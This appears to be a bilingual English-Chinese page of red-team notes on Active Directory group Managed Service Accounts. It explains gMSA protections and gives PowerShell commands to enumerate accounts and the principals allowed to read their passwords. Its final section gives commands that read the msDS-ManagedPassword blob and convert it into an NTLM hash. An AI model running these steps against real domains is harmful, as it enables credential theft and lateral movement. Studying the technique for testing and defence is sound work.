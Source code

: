 # gMSA

- A group Managed Service Account (gMSA) provides automatic password management, SPN management and delegated administration for service accounts across multiple servers.（组管理的服务账户（gMSA）提供自动密码管理、SPN管理和跨多个服务器的服务账户的委托管理。）

- Use of gMSA is recommended to protect from Kerberoast type attacks!（建议使用gMSA以防止Kerberoast类型的攻击!）

- A 256 bytes random password is generated and is rotated every 30 days.（生成一个 256 字节的随机密码，每 30 天轮换一次）

- When an authorized user reads the attribute 'msds-ManagedPassword’ the gMSA password is computed.（ 当授权用户读取属性“msds-ManagedPassword”时，将计算 gMSA 密码。）

- Only explicitly specified principals can read the password blob. Even the Domain Admins can't read it by default.（只有明确指定的主体才能读取密码 blob。 默认情况下，即使是域管理员也无法阅读。。）

## 枚举

### msDS-GroupMSAMembership
ADModule
```
Get-ADServiceAccount -Filter *
```
PowerView
```
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```

属性```msDS-GroupMSAMembership```(PrincipalsAllowedToRetrieveManagedPassword) 列出了可以读取 password blob。

使用ADModule
```
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

### msDS-ManagedPassword

- The attribute 'msDS-ManagedPassword' stores the password blob in binary form of MSDS-MANAGEDPASSWORD_BLOB. The attribute 'msDS-ManagedPassword' stores the password blob in binary form of MSDS-MANAGEDPASSWORD_BLOB.（ 属性```msDS-ManagedPassword```以二进制的形式从``` MSDS-MANAGEDPASSWORD_BLOB```存储 password blob）

- Once we have compromised a principal that can read the blob. Use ADModule to read and DSInternals to compute NTLM hash（一旦我们拿到可以读取这个blob的主体，使用ADModule读取DSInternals来计算NTLM）

```
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'

Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1

$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob

ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
